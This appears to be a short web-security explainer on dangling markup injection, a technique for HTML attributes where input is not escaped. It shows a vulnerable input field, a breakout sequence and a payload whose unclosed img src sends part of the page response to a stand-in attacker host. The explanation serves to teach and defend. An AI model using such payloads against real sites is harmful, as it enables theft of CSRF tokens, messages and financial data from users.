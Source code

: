 ## Explanation
 Suppose an application embeds attacker-controllable data into its responses in an unsafe way:

```html
<input type="text" name="input" value="CONTROLLABLE DATA HERE
```

Suppose also that the application does not filter or escape the > or " characters. An attacker can use the following syntax to break out of the quoted attribute value and the enclosing tag, and return to an HTML context:

`"> `

Suppose that a regular XSS attack is not possible, due to input filters, content security policy, or other obstacles. Here, it might still be possible to deliver a dangling markup injection attack using a payload like the following:

```html
"><img src='//attacker-website.com? 
```

 This payload creates an img tag and defines the start of a src attribute containing a URL on the attacker's server. Note that the attacker's payload doesn't close the src attribute, which is left "dangling". When a browser parses the response, it will look ahead until it encounters a single quotation mark to terminate the attribute. Everything up until that character will be treated as being part of the URL and will be sent to the attacker's server within the URL query string. Any non-alphanumeric characters, including newlines, will be URL-encoded.

The consequence of the attack is that the attacker can capture part of the application's response following the injection point, which might contain sensitive data. Depending on the application's functionality, this might include CSRF tokens, email messages, or financial data. 